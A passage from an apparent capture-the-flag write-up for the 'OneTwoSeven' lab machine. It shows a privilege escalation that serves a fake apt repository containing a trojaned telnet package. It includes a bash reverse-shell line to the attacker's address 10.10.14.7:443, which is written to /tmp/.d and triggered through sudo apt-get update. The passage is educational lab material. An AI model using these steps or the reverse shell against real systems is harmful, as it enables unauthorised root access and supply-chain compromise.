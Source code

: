 #### File Structure

I’ll need to put the package, `Packages`, and `Release` into the right spots
relative to my web root for this to work. If something is out of place, I’ll
see a 404 in my python `http.server` output.

    
    
    root@kali# find repo/ -type f
    repo/devuan/dists/ascii/main/binary-amd64/Packages
    repo/devuan/dists/ascii/main/binary-amd64/Packages.gz
    repo/devuan/dists/ascii/Release
    repo/devuan/pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb
    

#### Run Server

Now I’ll go to that folder root and run `python3 -m http.server 80` to start
the server. It must be on 80 for this to work.

### Run Exploit

#### Set Action

First I’ll need to set up the action I want to run. My package will execute
`/tmp/.d`. I’ll put a simple reverse shell there:

    
    
    www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'          
    #!/bin/sh
    
    bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"
    www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"' > /tmp/.d
    www-admin-data@onetwoseven:/$ chmod +x /tmp/.d 
    

I’ll test it as well, just to make sure it works. It does.

#### update

Now I’ll run `sudo /usr/bin/apt-get update`. At my http server, I see:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    127.0.0.1 - - [26/Aug/2019 09:39:11] code 404, message File not found
    127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/InRelease HTTP/1.1" 404 -
    127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/Release HTTP/1.1" 200 -
    127.0.0.1 - - [26/Aug/2019 09:39:11] code 404, message File not found
    127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/Release.gpg HTTP/1.1" 404 -
    127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/main/binary-amd64/Packages.gz HTTP/1.1" 200 -
    

I can see it successfully retrieves `Release` and then `Packages.gz`. The
`Release` file tells the system there’s a new package to install in `Packages`
at that path. Then it gets the compressed version. On a normal system, it
would end with a message about how many packages were available for update,
and suggesting I run `apt upgrade`, something like this:

